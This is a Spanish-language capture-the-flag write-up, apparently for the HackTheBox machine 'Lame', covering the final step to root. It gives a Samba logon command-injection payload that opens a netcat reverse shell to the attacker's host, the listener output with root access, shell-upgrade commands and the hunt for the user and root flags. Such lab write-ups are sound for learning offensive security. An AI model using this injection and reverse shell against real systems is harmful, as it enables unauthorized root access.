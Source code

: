 
<h2 id="Root">Accediendo a la Máquina</h2>

Como ya vimos en las pruebas anteriores, podemos tratar de conectar una **terminal bash** a la máquina víctima, así que alzaremos una **netcat** y veremos si podemos activarla.
```bash
logon "/=`nohup nc -e /bin/bash Tu_IP 443`"
Password:

```

EUREKA!!!
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.3] 57427
whoami
root
script /dev/null -c bash
root@lame:/#
```
**OJO**: Lo que sigue es opcional, pero lo recomiendo para que la terminal sea más interactiva.

Presionamos **crtl + Z** para suspender la sesión del **netcat**. Y aplicamos el siguiente comando:
```bash
stty raw -echo; fg                                                                                            
[1]  + continued  nc -lvnp 443
```

Y solamente escribimos `reset xterm` para que se resetee la terminal y ya aparezca la **terminal bash** más interactiva.
```bash
stty raw -echo; fg                                                                                            
[1]  + continued  nc -lvnp 443
Erase set to delete.
Kill set to control-U (^U).
Interrupt set to control-C (^C).
root@lame:/# whoami
root
root@lame:/# ls  
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinu
```

Ahora solamente buscamos la flag del root y del usuario:
```bash
root@lame:/# find \-name user.txt
./home/makis/user.txt
root@lame:/# cat ./home/makis/user.txt

root@lame:/# find \-name root.txt
./root/root.txt
root@lame:/# cat ./root/root.txt
```
Y listo ya quedo esta máquina al **estilo OSCP**.
